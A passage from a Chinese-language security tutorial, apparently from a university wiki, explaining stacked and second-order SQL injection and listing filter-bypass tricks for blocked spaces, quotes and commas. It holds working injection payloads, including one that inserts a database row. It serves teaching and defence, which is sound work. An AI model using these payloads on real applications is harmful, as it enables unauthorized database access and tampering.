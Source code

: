 ### 堆叠注入

当注入点使用的执行函数允许一次性执行多个 SQL 语句的时候，例如 PHP 中的 `multi_query`，堆叠注入即存在。堆叠注入相较于其他方式，利用的手法更加自由，不局限于原来的 SELECT 语句，而可以拓展到 INSERT、SHOW、SET、UPDATE 语句等。

`Liki4';INSERT INTO users VALUES ('Liki3','01848f8e70090495a136698a41c5b37406968c648ab12133e0f256b2364b5bb5');#`

![](https://pic-hdu-cs-wiki-1307923872.cos.ap-shanghai.myqcloud.com/boxcnrMIc2m6oubxC86CEtw1jMe.png)

![](https://pic-hdu-cs-wiki-1307923872.cos.ap-shanghai.myqcloud.com/boxcnVRdntvakiTpt7nP8JhKKfc.png)

INSERT 语句也被成功执行了，向数据库中插入了 Liki3 的数据

### 二次注入

二次注入的原理与前面所有的注入方式一致，仅仅在于触发点不同。

在某些 Web 应用中，注册时对用户的输入做了良好的预处理，但在后续使用的过程中存在未做处理的注入点，此时即可能造成二次注入

常见的场景，例如某平台在用户注册时无法进行 SQL 注入利用，但在登陆后的用户个人信息界面进行数据查询时存在可利用的注入点。

那么我们在注册的时候即便无法当即触发 SQL 注入，但可以将恶意 payload 暂时写入到数据库中，这样一来当我们访问个人信息界面查询这个恶意 payload 的时候即会在可利用的注入点触发 SQL 注入。

## SQL 注入常见的过滤绕过方式

### 空格被过滤

1. `/*xxx*/` MySQL 行内注释

`SELECT/*1*/username,password/*1*/FROM/*1*/users;`

1. `()`

`SELECT(username),(password)FROM(users);`

1. `%20 %09 %0a %0b %0c %0d %a0 %00` 等不可见字符

### 引号被过滤

1. 十六进制代替字符串

`SELECT username, password FROM users WHERE username=0x4c696b6934`

### 逗号被过滤

1. `from for`

`select substr(database(),1,1);`

`select substr(database() from 1 for 1);`

`select mid(database() from 1 for 1);`

1. `join`
